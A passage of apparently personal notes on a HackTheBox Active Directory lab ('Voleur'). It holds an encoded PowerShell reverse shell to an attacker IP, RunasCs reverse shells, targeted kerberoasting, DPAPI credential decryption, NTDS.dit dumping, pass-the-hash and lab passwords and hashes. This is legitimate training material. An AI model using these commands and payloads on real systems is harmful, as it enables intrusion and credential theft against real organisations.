  $sec = ConvertTo-SecureString 'M1XyC9pW7qT5Vn' -AsPlainText -Force
  $cred = New-Object System.Management.Automation.PSCredential('svc_ldap',$sec)
  Invoke-Command -computername DC -Credential $cred -scriptblock {powershell -e "JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMwAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA="}
  #+end_src
  this fails because 
  NOTE: get computername above like so :
  #+begin_src 
  $env:COMPUTERNAME
  #+end_src
** create task
   #+begin_src bat
   ,*Evil-WinRM* PS C:\Users\svc_winrm\Documents> schtasks /create /tn revB /tr "cmd.exe /c powershell -e JABjAGwAaQBlAG...<SNIP>" /sc once /st 00:00 /ru svc_ldap /rp M1XyC9pW7qT5Vn                                                

schtasks.exe : ERROR: Value for '/tr' option cannot be more than 261 character(s).  
   #+end_src
   fix it by writing the shell command to a file instead:
   #+begin_src bat
   ,*Evil-WinRM* PS C:\Users\svc_winrm\Documents> $payload = "cmd.exe /c powershell -e JABj.."
   ,*Evil-WinRM* PS C:\Users\svc_winrm\Documents> Set-Content .\rev.ps1 $payload
   #+end_src
   #+begin_src bat
   ,*Evil-WinRM* PS C:\Users\svc_winrm\Documents> schtasks /create /tn revB /tr ".\rev.ps1" /sc once /st 00:00 /ru svc_ldap /rp M1XyC9pW7qT5Vn

schtasks.exe : WARNING: Task may not run because /ST is earlier than current time.
    + CategoryInfo          : NotSpecified: (WARNING: Task m...n current time.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
WARNING: The task is registered, but may fail to start. Batch logon privilege needs to be enabled for the task princip
   #+end_src
   try to run it (ignore the earlier than current time warning; we're forcing it to run
   immediately):
   #+begin_src bat
   ,,*Evil-WinRM* PS C:\Users\svc_winrm\Documents> schtasks /run /tn revB
SUCCESS: Attempted to run the scheduled task "revB".
   #+end_src
   no shell.
* guided mode
  #+begin_src 
  Which non-standard group is the svc_ldap user a member of
  #+end_src
  bloodhound shows 6 groups, the most interesting being =Restore_Users=; however this is not
  accepted as the answer
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-02-02_10-35.png @ 2026-02-02 10:35:58
  
  
  =net user= via evil-winrm shows:
  #+begin_src bat
  net user svc_ldap /domain

Global Group memberships     *Restore_Users        *Domain Users
  #+end_src
  this is because of nested group memberships:
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-02-02_10-37.png @ 2026-02-02 10:37:27
  
* rerun bloodhound collector as svc_ldap
** rusthound
   #+begin_src bat
   rusthound-ce -u svc_ldap -p 'M1XyC9pW7qT5Vn' -d 'voleur.htb' -c All --zip
   #+end_src
** bloodhound-python
   #+begin_src bat
   bloodhound-python -u svc_ldap -p 'M1XyC9pW7qT5Vn' -d 'voleur.htb' -dc 'dc.voleur.htb' -ns 10.129.232.130 -c All --zip
   #+end_src
   this reveals no additional info
* Restore_Users group
  ok, if this group is in fact able to restore users, perhaps it will be able to restore the
  =todd.wolfe= user. so that might be the attack path.
* runascs
  #+begin_src bat
 C:\Users\svc_winrm\Documents>.\RunasCs.exe svc_ldap -p M1XyC9pW7qT5Vn whoami
[*] Warning: The logon for user 'svc_ldap' is limited. Use the flag combination --bypass-uac and --logon-type '8' 

  C:\Users\svc_winrm\Documents>.\RunasCs.exe svc_ldap -p M1XyC9pW7qT5Vn powershell -r 10.10.16.3:4444
  #+end_src
  and we get a reverse shell as =svc_ldap=
  wget errors out and so does IWR
  #+begin_src 
  Invoke-WebRequest http://10.10.16.3/powerview.ps1 -OutFile ".\powerview.ps1"

'Invoke-WebRequest' is not recognized as an internal or external command, 
  #+end_src
  turns out this is a =cmd= shell; switch to powershell and download poweview
  NOTE: this can be avoided by replacing =cmd= in the =runascs= command with =powershell= (done now)
* powerview
  let's see if =Restore_Users= can reanimate tombstone objects
  #+begin_src bat
  PS C:\Users\svc_ldap> Get-DomainObjectAcl -Identity (Get-Domain).DistinguishedName -ResolveGUIDs | ? { $_.ObjectAceType -match "Restore|Reanimate" }

AceQualifier           : AccessAllowed
ObjectDN               : DC=voleur,DC=htb
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : Reanimate-Tombstones
ObjectSID              : S-1-5-21-3927696377-1337352550-2781715495
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3927696377-1337352550-2781715495-1602
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

   PS C:\Users\svc_ldap> (Get-DomainGroup Restore_Users).ObjectSID

S-1-5-21-3927696377-1337352550-2781715495-1602
  #+end_src
  look at deleted objects:
  #+begin_src bat
  PS C:\Users\svc_ldap> Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
  #+end_src
  returns nothing, so let's see if =Get-ADObject= is indeed being sourced from the
  =ActiveDirectory= module
  #+begin_src 
  PS C:\Users\svc_ldap> Get-Command Get-ADObject                                   

CommandType     Name                                               Version    Source
-----------     ----                                               -------
Alias           Get-ADObject
  #+end_src
  this output means it's an alias - probably for =Get-DomainObject=, meaning even though the
  =ActiveDirectory= module is imported, PowerView is shadowing the real cmdlet.
  so let's remove that alias:
  #+begin_src bat
  PS C:\Users\svc_ldap> Get-Alias Get-ADObject | Format-List

DisplayName       : Get-ADObject
CommandType       : Alias
Definition        : Get-DomainObject
ReferencedCommand : Get-DomainObject
ResolvedCommand   : Get-DomainObject

  PS C:\Users\svc_ldap> Remove-Item Alias:Get-ADObject

CommandType     Name                Version    Source
-----------     ----                -------    ------
Cmdlet          Get-ADObject        1.0.1.0    ActiveDirectory
  #+end_src
  rerun:
  #+begin_src bat
  PS C:\Users\svc_ldap> Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects

  Deleted           : True
  DistinguishedName : CN=Deleted Objects,DC=voleur,DC=htb
  Name              : Deleted Objects
  ObjectClass       : container
  ObjectGUID        : 587cd8b4-6f6a-46d9-8bd4-8fb31d2e18d8

  Deleted           : True
  DistinguishedName : CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb
  Name              : Todd Wolfe
  DEL:1c6b1deb-c372-4cbb-87b1-15031de169db
  ObjectClass       : user
  ObjectGUID        : 1c6b1deb-c372-4cbb-87b1-15031de169db
  #+end_src
** examine user
   #+begin_src bat
   Get-ADObject -Identity "CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb" -IncludeDeletedObjects -Properties *

accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : voleur.htb/Deleted Objects/Todd Wolfe
                                  DEL:1c6b1deb-c372-4cbb-87b1-15031de169db
CN                              : Todd Wolfe
                                  DEL:1c6b1deb-c372-4cbb-87b1-15031de169db
codePage                        : 0
countryCode                     : 0
Created                         : 1/29/2025 1:08:06 AM
createTimeStamp                 : 1/29/2025 1:08:06 AM
Deleted                         : True
Description                     : Second-Line Support Technician
DisplayName                     : Todd Wolfe
DistinguishedName               : CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted 
                                  Objects,DC=voleur,DC=htb
dSCorePropagationData           : {5/13/2025 4:11:10 PM, 1/29/2025 4:52:29 AM, 1/29/2025 4:49:29 AM, 1/29/2025 1:08:06  
                                  AM...}
givenName                       : Todd
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Second-Line Support Technicians,DC=voleur,DC=htb
lastLogoff                      : 0
lastLogon                       : 133826301603754403
lastLogonTimestamp              : 133826287869758230
logonCount                      : 3
Modified                        : 5/13/2025 4:11:17 PM
modifyTimeStamp                 : 5/13/2025 4:11:17 PM
msDS-LastKnownRDN               : Todd Wolfe
Name                            : Todd Wolfe
                                  DEL:1c6b1deb-c372-4cbb-87b1-15031de169db
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  : 
ObjectClass                     : user
ObjectGUID                      : 1c6b1deb-c372-4cbb-87b1-15031de169db
objectSid                       : S-1-5-21-3927696377-1337352550-2781715495-1110
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 133826280731790960
sAMAccountName                  : todd.wolfe
sDRightsEffective               : 0
sn                              : Wolfe
userAccountControl              : 66048
userPrincipalName               : todd.wolfe@voleur.htb
uSNChanged                      : 45088
uSNCreated                      : 12863
whenChanged                     : 5/13/2025 4:11:17 PM
whenCreated                     : 1/29/2025 1:08:06 AM
   #+end_src
** restore Todd Wolfe
   #+begin_src 
   PS C:\Users\svc_ldap> Restore-ADObject -Identity "CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb"
   #+end_src
** enable the acccount
   #+begin_src 
   PS C:\Users\svc_ldap> Enable-ADAccount todd.wolfe
   #+end_src
** confirm it worked
   #+begin_src 
   PS C:\Users\svc_ldap> Get-ADUser todd.wolfe -Properties adminCount,memberOf

DistinguishedName : CN=Todd Wolfe,OU=Second-Line Support Technicians,DC=voleur,DC=htb
Enabled           : True
GivenName         : Todd
MemberOf          : {CN=Second-Line Technicians,DC=voleur,DC=htb, CN=Remote Management 
Users,CN=Builtin,DC=voleur,DC=htb}
Name              : Todd Wolfe
ObjectClass       : user
ObjectGUID        : 1c6b1deb-c372-4cbb-87b1-15031de169db
SamAccountName    : todd.wolfe
SID               : S-1-5-21-3927696377-1337352550-2781715495-1110
Surname           : Wolfe
UserPrincipalName : todd.wolfe@voleur.htb
   #+end_src
* reverse shell as todd.wolfe
  #+begin_src bat
  .\RunasCs.exe todd.wolfe -p NightT1meP1dg3on14 powershell -r 10.10.16.3:4445

The username todd.wolfe has not been found. LookupAccountName failed with error code: No mapping between account names and security IDs was done
  #+end_src
  worked after reopening a session as =svc_ldap=
* todd.wolfe
  #+begin_src bat
  C:\Users\todd.wolfe>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
  #+end_src
* lnk file on the desktop
  let's examine this one:
  #+begin_src bat
  $sh = New-Object -ComObject WScript.Shell
  $target = $sh.CreateShortcut("C:\Users\todd.wolfe\Desktop\Microsoft Edge.lnk")
  $target.TargetPath

C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe

  $target.Arguments
  #+end_src
* lazagne
  finds nothing
* official solution
  ok, so the idea is that we enumerate the shares again and find that there's a master key
  and credential blob in the IT share.
** spider
   #+begin_src 
  nxc smb DC.voleur.htb -u todd.wolfe -p 'NightT1meP1dg3on14' -k -M spider_plus --share 'IT' 
   #+end_src
   this shows there's an archived users folder inside which there's a =todd.wolfe= subdirectory
** impacket-smbclient
   #+begin_src bat
   impacket-smbclient -k todd.wolfe@dc.voleur.htb

# shares
<SNIP>
IT
NETLOGON
SYSVOL
# use IT 
# cd Second-Line Support
# cd Archived Users
# cd todd.wolfe
   #+end_src
   navigating to =AppData\Roaming\Microsoft=, we can find the =Private= and =Credentials= folders,
   and download the contents there - which are the master key file and the stored credential
   blob respectively.
** decrypt creds with impacket-dpapi
   #+begin_src bat
   $ impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14

[MASTERKEYFILE]                                            
Version     :        2 (2)                                 
Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
Flags       :        0 (0)                                 
Policy      :        0 (0)                                 
MasterKeyLen: 00000088 (136)                               
BackupKeyLen: 00000068 (104)                               
CredHistLen : 00000000 (0)                                 
DomainKeyLen: 00000174 (372)                               

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
   #+end_src
** use key to decrypt blob
   #+begin_src 
   $ impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83

[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=Jezzas_Account
Description : 
Unknown     : 
Username    : jeremy.combs
Unknown     : qT3V9pLXyN7W4m
   #+end_src
   so now we have =jeremy.combs=' creds.
*** jeremy.combs creds
    #+begin_src 
   jeremy.combs: qT3V9pLXyN7W4m
    #+end_src
* log in as jeremy.combs
  get the kerberos ticket using kinit and then
  #+begin_src bat
  $ evil-winrm -i dc.voleur.htb -r voleur.htb

*Evil-WinRM* PS C:\Users\jeremy.combs\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
  #+end_src
* get tgt and access the shares again
  we know he has access to the =Software= folder
  #+begin_src bash
  export KRB5CCNAME=jeremy.combs.ccache
  #+end_src
  #+begin_src 
  nxc smb DC.voleur.htb -u jeremy.combs -p 'qT3V9pLXyN7W4m' -k --shares
  #+end_src
  reveals nothing new.
** spider
   #+begin_src bat
   nxc smb DC.voleur.htb -u jeremy.combs -p 'qT3V9pLXyN7W4m' -k -M spider_plus --share 'IT'
   #+end_src
   there's interesting content:
    #+begin_src bat
    "IT": {
        "Third-Line Support/Note.txt.txt": {
            "atime_epoch": "2025-01-30 17:07:35",
            "ctime_epoch": "2025-01-30 17:05:03",
            "mtime_epoch": "2025-01-30 17:07:35",
            "size": "186 B"
        },
        "Third-Line Support/id_rsa": {
            "atime_epoch": "2025-01-30 17:10:54",
            "ctime_epoch": "2025-01-30 17:10:54",
            "mtime_epoch": "2025-01-30 17:11:29",
            "size": "2.54 KB"
        }
    #+end_src
** log in
   #+begin_src bat
   impacket-smbclient -k jeremy.combs@dc.voleur.htb
   #+end_src
   naviate to the folder and download =id_rsa=; the txt file reads:
   #+begin_src
Jeremy,

I've had enough of Windows Backup! I've part configured WSL to see if we can utilize any of the backup tools from Linux.

Please see what you can set up.

Thanks,

Admin
   #+end_src
* ssh
  #+begin_src bat
  ssh -i id_rsa jeremy.combs@<ip>
  #+end_src
  this didn't work for the longest time -- turns out the port is 2222; however:
  #+begin_src bat
  $ ssh jeremy.combs@10.129.232.130 -i id_rsa -p 2222

jeremy.combs@10.129.232.130: Permission denied (publickey).   
  #+end_src
  fails for =Administrator=, =Admin=, etc. turns out, it's for the =svc_backtup= account (as is
  clear from the note and also the excel data)
  #+begin_src bat
  $ ssh svc_backup@10.129.232.130 -i id_rsa -p 2222
  #+end_src
  this works.
* NTDS.dit
  from the [[file:d:/code/htb/academy/modules/windows-privilege-escalation/windows-built-in-groups.org::*Copying NTDS.dit Locally][section]] on the =Backup Users= group and =SeBackupPrivilege=, it looked like the path
  may be to download =NTDS.dit= and the =SYSTEM= and =SECURITY= hives and then extracting creds;
  however, it was only possible to download it from the backup locations and not the original
  ones (this is also made clear in the section)
  #+begin_src bat
  $ scp -P 2222 -i id_rsa svc_backup@10.129.232.130:/mnt/c/Windows/System32/config/SAM . 

scp: remote open "/mnt/c/Windows/System32/config/SAM": Permission denied
  #+end_src
  instead, get =SYSTEM=, =SECURITY= and =NTDS.DIT= from these locations:
  #+begin_src bat
  $ scp -i id_rsa -P 2222 "svc_backup@10.129.232.130:/mnt/c/IT/Third-Line Support/Backups/registry/SYSTEM" ./SYSTEM

SYSTEM               100%   18MB   2.6MB/s   00:06
  #+end_src
  #+begin_src bat
  $ scp -i id_rsa -P 2222 "svc_backup@10.129.232.130:/mnt/c/IT/Third-Line Support/Backups/registry/SECURITY" ./SECURITY

SECURITY             100%   32KB 204.5KB/s   00:00    
  #+end_src
  =ntds.dit=:
  #+begin_src bat
  $ scp -i id_rsa -P 2222 "svc_backup@10.129.232.130:/mnt/c/IT/Third-Line Support/Backups/Active Directory/ntds.dit" ./ntds.dit

ntds.dit             100%   24MB   2.2MB/s   00:10
  #+end_src
* extract creds
  #+begin_src 
  impacket-secretsdump -ntds ntds.dit -security SECURITY -system SYSTEM local

Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2::: 
  #+end_src
* get tgt via impacket-gettgt
  #+begin_src bat
  impacket-getTGT voleur.htb/administrator -hashes :e656e07c56d831611b577b160b259ad2

[*] Saving ticket in administrator.ccache
  #+end_src
* root flag
  #+begin_src bat
  ,*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt

267958d4709cc6cda88e9b27460e37f7
  #+end_src
* ippsec
** nmap
   uses the =-vv= flag to get more verbose output including *TTL*, which comes into play [[*wsl][here]]
** use nxc to get the hostname of the box
   #+begin_src 
   $ nxc smb 10.129.232.130

SMB  10.129.232.130  445    10.129.232.130   [*]  x64 (name:10.129.232.130) (domain:10.129.232.130) (signing:True) (SMBv1:False) (NTLM:False)

   #+end_src
   ok, that didn't work for me; but for him, the output has the =name= *DC*; the output also says
   *NTLM* is disabled - so we know we'll have to use kerberos.
   NOTE: he also adds *DC* to =/etc/hosts= (it doesn't contain any other lines with it, obviously)
** wsl
   something we should have caught is the nmap ssh output contains
   #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-02-14_10-58.png @ 2026-02-14 10:59:19
   

   it says *Ubuntu* from which ippsec guesses that something like WSL might be at play. also,
   the *TTL* across all output is *127*, which, if it were a separate VM, it would require
   additional hops, and the default *TTL* of linux is 64 also; so he'd expect this TTL to be
   like 62 or something.
** generate kerberos file
   *"whenever doing kerberos stuff, you should be using the hostname"*
   uses nxc without creds to generate the file:
   #+begin_src bat
   nxc smb DC.voluer.htb --generate-krb-file voleur.krb
   #+end_src
   just does =sudo cp voleur.krb /etc/krb5.conf=
** smbclient
   prefers to avoid the impacket version because it can be flagged; so:
   NOTE: capitalization matters!
   #+begin_src bat
   $ smbclient --realm=voluer.htb -U 'voleur.htb/ryan.naylor%HollowOct31Nyt' //dc.voleur.htb/IT
   
session setup failed: NT_STATUS_NOT_SUPPORTED
   #+end_src
   #+begin_src bat
   $ smbclient --realm=VOLEUR.HTB -U 'voleur.htb/ryan.naylor%HollowOct31Nyt' //dc.voleur.htb/IT

   Try "help" to get a list of possible commands.
   smb: \> 
   #+end_src
** the intended path and a less straightforward path not involving shell access
   the intended path (which we followed as well) is to use the =WriteSPN= rights =svc_ldap= has
   over =svc_winrm= and then login as =svc_winrm= and restore the user via =svc_ldap=; but this
   can be done directly via =svc_ldap= without needing to use a shell via nxc
** targeted kerberoasting
*** set SPN with bloodyAD
    #+begin_src bat
    bloodyAD -d voleur.htb --host dc.voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k set object svc_winrm servicePrincipalName -v 'HTTP/PleaseSubscribe'

[+] svc_winrm's servicePrincipalName has been updated
    #+end_src
*** kerberoast with nxc
    #+begin_src bat
    nxc ldap DC.voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' --kerberoast - -k
    #+end_src
    this returns the ticket which we can then crack.
*** unset the SPN by removing the last argument
*** getTGT.py for getting the ccache file.
    #+begin_src bat
    getTGT.py 'voleur.htb/svc_winrm:AFireInsidedeOzarctica980219afi'
    #+end_src
    NOTE: we haven't yet installed it.
** runasCs
   use =rlwrap= with nc
   #+begin_src bat
   rlwrap nc -lvnp 9001
   #+end_src
** restore object with just the guid
   #+begin_src bat
   Restore-ADObject -Identity <guid>
   #+end_src
** redo this part without a shell
   uses this [[https://malicious.link/posts/2022/ldapsearch-reference/][mubix ldap reference blog]]
*** ldapsearch
    #+begin_src bat
    impacket-getTGT voleur.htb/svc_ldap -dc-ip 10.129.232.130

[*] Saving ticket in svc_ldap.ccache
    #+end_src
    NOTE: with kerberos stuff, it helps to do this in another terminal window, probably due
    to how we've already exported some env variables.
    #+begin_src bat
    $ KRB5CCNAME=svc_ldap.ccache ldapsearch -H ldap://dc.voleur.htb -Tx -Y GSSAPI -b "CN=Deleted Objects,DC=voleur,DC=htb" -E '!1.2.840.113556.1.4.417'

SASL/GSSAPI authentication started
ldap_sasl_interactive_bind: Local error (-2)
        additional info: SASL(-1): generic failure: GSSAPI Error: Unspecified GSS failure.  Minor code may provide more information (Server not found in Kerberos database)
    #+end_src
    this required editing the hosts file to make sure =dc.voleur.htb= was the first entry before
    =voleur.htb=
    after that, we get back:
    #+begin_src bat
    <SNIP>
    # Todd Wolfe
DEL:1c6b1deb-c372-4cbb-87b1-15031de169db, Deleted Objects, voleur.
 htb
dn: CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Object
 s,DC=voleur,DC=htb
    <SNIP>
    #+end_src
*** restore user
    this requires us to install a netexec version with an unmerged PR; skipping.
** spidering IT share as todd.wolfe
   use an exclude filter to not crawl the *SYSVOL* and *NETLOGON* with
   #+begin_src 
  nxc smb DC.voleur.htb -u todd.wolfe -p 'NightT1meP1dg3on14' -k -M spider_plus -o EXCLUDE_FILTER='print$,ipc$,SYSVOL,NETLOGON'
   #+end_src
   NOTE: we specified the =IT= share instead.
** neat spidering output with jq (display only filenames)
   #+begin_src 
   cat dc.voleur.htb.json | jq '. | map_values(keys)' | less
   #+end_src
** credentials in roaming vs. local
   tries at first to get the cred file from local but upon decryption, realizes that it
   contains nothing useful and does a grep in the spider output for other files matching the
   32 char pattern and comes across the one in roaming
   #+begin_src bat
   cat dc.voleur.htb.json | jq '. | map_values(keys)' | grep -oP "[A-Z0-9]{32}" > potential_blobs
   #+end_src
   read the output file:
   #+begin_src bat
   cat dc.voleur.htb.json | jq '. | map_values(keys)' | grep -f potential_blobs
   #+end_src
** get username from id_rsa
   take a backup, delete the header and the footer ('BEGIN...'), base64 decode and pipe to xxd
   #+begin_src bat
   base64 -d id_rsa.bak | xxd

svc_backup@DC...
   #+end_src
*** using ssh-keygen
    #+begin_src 
    ssh-keygen -y -f ./id_rsa
    #+end_src
** psexec
   #+begin_src bat
   psexec.py -hashes:e656e07c56d831611b577b160b259ad2 -k "voleur.htb/administrator@dc.voleur.htb"
   #+end_src
